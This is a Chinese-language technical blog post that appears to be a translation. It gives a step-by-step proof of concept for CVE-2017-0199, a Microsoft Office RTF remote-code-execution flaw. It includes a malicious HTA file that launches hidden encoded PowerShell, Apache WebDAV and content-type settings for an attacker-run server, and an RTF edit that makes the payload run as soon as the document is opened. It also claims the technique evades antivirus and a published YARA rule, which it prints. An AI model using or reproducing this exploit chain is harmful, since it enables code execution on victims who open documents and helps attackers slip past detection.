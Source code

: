 
# 【技术分享】CVE-2017-0199：Microsoft Office RTF 漏洞利用 PoC


                                阅读量   
                                **156300**
                            
                        |
                        
                                                                                    



**[![](./img/85902/t01f53a9228f29b135b.jpg)](./img/85902/t01f53a9228f29b135b.jpg)**

**0x01 介绍**

自FireFye检测并发布[CVE-2017-0199](https://www.fireeye.com/blog/threat-research/2017/04/cve-2017-0199-hta-handler.html)以来，我一直在研究这个漏洞，在微软正式发布补丁后，我决定发布这个PoC。我的利用方式可能与其他研究人员的利用方法不同，这个利用方法可能会更轻松一点。

CVE-2017-0199：当用户打开包含嵌入式漏洞的文档时，winword.exe会向远程服务器发出HTTP请求，以检索恶意HTA文件，服务器返回的文件时一个带有嵌入式恶意脚本的假RTF文件，winword.exe通过COM对象查找application/hta的文件处理程序，这会导致Microsoft HTA应用程序（mshta.exe）加载并执行恶意脚本。

<br>

**0x02 技术背景**

我们可以将OLEv2链接包含在现有文档中。 这些对象将反映加载到文档中的源链接中的当前内容。

令人惊奇的是，如果尝试将HTA链接包含为OLEv2对象，那么它将被执行一次（在创建时），但Winword将返回一个错误，如：

[![](./img/85902/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01fe534d6efb581fa3.png)

在这种情况下的问题是HTA文件不会被持久化（如果你将其链接到文件+创建图标，那么它可能可以做到持久化，但是我们想要它隐藏并自动运行）。

我开始通过思考如何处理不是恶意的OLE对象链接到远程RTF文件…为了实现在“proper”Microsoft Office中的预期方式，我一点点修改在Apache中服务我的文件的内容类型和DAV模块…（这将在下一章讨论）。

从那里开始，我会有一个有效的嵌入对象链接，在每次自动更新后都打开我的文档！

下一步，在HTA中用我的有效载荷修改来源的文档！

在这种情况下，我能够：

 为真正的RTF文件创建一个动态OLEv2对象链接

使用我的有效载荷修改源的RTF

 如果想创建一个直接链接到HTA文档，请绕过所产生的错误

<br>

**0x03 技术细节**

**步骤1**

准备一个HTA文件：（HTA文件是可以运行JScript和VBscript的HTML应用程序）

我们创建一个“ms.hta”文件：



```
&lt;!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd"&gt;  
   &lt;html xmlns="http://www.w3.org/1999/xhtml"&gt;  
   &lt;head&gt;  
   &lt;meta content="text/html; charset=utf-8" http-equiv="Content-Type" /&gt;  
   &lt;title&gt;Bonjour&lt;/title&gt;  
 &lt;script language="VBScript"&gt;  
  Set owFrClN0giJ = CreateObject("Wscript.Shell")   
  Set v1ymUkaljYF = CreateObject("Scripting.FileSystemObject")  
  If v1ymUkaljYF.FileExists(owFrClN0giJ.ExpandEnvironmentStrings("%PSModulePath%") + "..powershell.exe") Then  
   owFrClN0giJ.Run "powershell.exe -nop -w hidden -e ENCODED_B64_SHELL"  
  End If  
 &lt;/script&gt;  
 &lt;hta:application  
     id="oHTA"  
     applicationname="Bonjour"  
     application="yes"  
   &gt;  
   &lt;/hta:application&gt;  
   &lt;/head&gt;  
   &lt;div&gt;   
   &lt;object type="text/html" data="http://windows.microsoft.com/en-IN/windows7/products/features/windows-defender" width="100%" height="100%"&gt;  
   &lt;/object&gt;&lt;/div&gt;    
   &lt;body&gt;  
   &lt;/body&gt;  
   &lt;/html&gt;
```

**步骤2**

使用任意随机内容在Winword中创建一个简单的RTF文档。（在例子中，我使用字符串来作为我的内容）

命名为“ms.rtf”。

**步骤3**

将这2个文件发送到被我们完全控制的网络服务器上。我们假定它将被存储在/var/www/html中。

现在我们必须配置Apache才能将ms.rtf作为一个链接。配置Apache：



```
a2enmod dav
 a2enmod dav_fs
 a2enmod dav_lock
 a2enmod headers
 service apache2 restart
```

以下命令将会：

将“Content-Type application/rtf”添加到/ms中的所有文件中

允许Microsoft Office执行的PROPFIND请求



```
Modify virtualhost and include:
&lt;Directory /var/www/html/ms/&gt; 
 Header set Content-Type "application/rtf" 
 &lt;/Directory&gt; 
 &lt;Directory /&gt; 
 Dav on 
 &lt;/Directory&gt;
service apache2 restart
```

**步骤4**

使用Winword的“ exploit.rtf ” 创建一个简单的RTF文档，这将是我们的exploit！

插入 – &gt;对象

[![](./img/85902/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t014a98158e30058aec.png)

CVE-2017-0199创建OLEv2外部链接

单击确定后，我们将获得只包含随机字符串内容的“ms.rtf”文件。将该文件保存为“ exploit.rtf ”。

[![](./img/85902/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t014e55d2efb3d53363.png)

CVE-2017-0199创建Olev2链接对象

在这一步我们可以关闭Winword，并转到下一步改变ms.rtf的内容与HTA有效载荷…

**步骤5**

以下步骤将：

更改自定义HTA有效载荷中包含的ms.rtf

Web服务器将发送“application/hta”的内容类型…这将由Winword客户端解析，它将运行mshta来处理这个内容类型并执行我们的有效载荷



```
cat /var/www/html/ms/ms.hta &gt; /var/www/html/ms.rtf
vi /etc/apache2/sites-enables/000-default 
Change -&gt; application/rtf to application/hta 
like:
&lt;Directory /var/www/html/ms/&gt; 
Header set Content-Type "application/hta" 
&lt;/Directory&gt;
service apache2 restart
```

**步骤6**

在这一步，如果用户打开“exploit.rtf”文件了，他必须要双击链接对象来启动攻击…

如果我们希望在文档开头时自动加载OLE对象，我们必须编辑更改exploit.rtf文件：

[![](./img/85902/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01742fa6be0b9b91b3.png)

到

```
objectobjautlinkobjupdatersltpict……………………..
```

在这个步骤中，我们成功的构建了exploit。

Exploitation:一旦用户打开文档，由于服务器提供的application/hta content-type执行ms.hta，OLE对象将通过链接来更新。这样会得到执行代码的结果。

[![](./img/85902/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01cd012fc4fad592db.png)

我们可以不用关心警告了，因为代码已经执行了。

[![](./img/85902/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t015fa8dad01340e9cb.png)

CVE-2017-0199被成功利用了， 执行后发出警告

<br>

**使用当前AV/published YARA规则**

从我的个人测试来看，这种方法似乎没有被AV捕获（Defender已经有CVE-2017-0199的签名），此外，目前发布的yara规则与此漏洞利用率不匹配。



```
rule rtf_objdata_urlmoniker_http {
 strings:
 $header = "{\rtf1"
 $objdata = "objdata 0105000002000000" nocase
 $urlmoniker = "E0C9EA79F9BACE118C8200AA004BA90B" nocase
 $http = "68007400740070003a002f002f00" nocase
 condition:
 $header at 0 and $objdata and $urlmoniker and $http
 }
```

确实，urlmoniker不匹配，这将永远不会触发这个yara规则。

<br>

**0x04 参考**

****

[https://www.fireeye.com/blog/threat-research/2017/04/cve-2017-0199_useda.html](https://www.fireeye.com/blog/threat-research/2017/04/cve-2017-0199_useda.html) 

[https://www.mdsec.co.uk/2017/04/exploiting-cve-2017-0199-hta-handler-vulnerability/](https://www.mdsec.co.uk/2017/04/exploiting-cve-2017-0199-hta-handler-vulnerability/)  

[https://blog.nviso.be/2017/04/12/analysis-of-a-cve-2017-0199-malicious-rtf-document/](https://blog.nviso.be/2017/04/12/analysis-of-a-cve-2017-0199-malicious-rtf-document/) 
